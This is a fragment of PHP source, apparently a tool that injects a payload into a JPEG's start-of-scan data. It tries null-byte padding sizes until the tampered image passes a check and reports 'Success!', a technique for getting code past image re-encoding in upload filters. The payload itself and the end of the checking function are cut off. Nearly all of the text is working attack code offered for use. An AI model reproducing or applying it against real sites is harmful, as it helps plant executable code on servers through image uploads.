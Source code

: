 ```php

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
```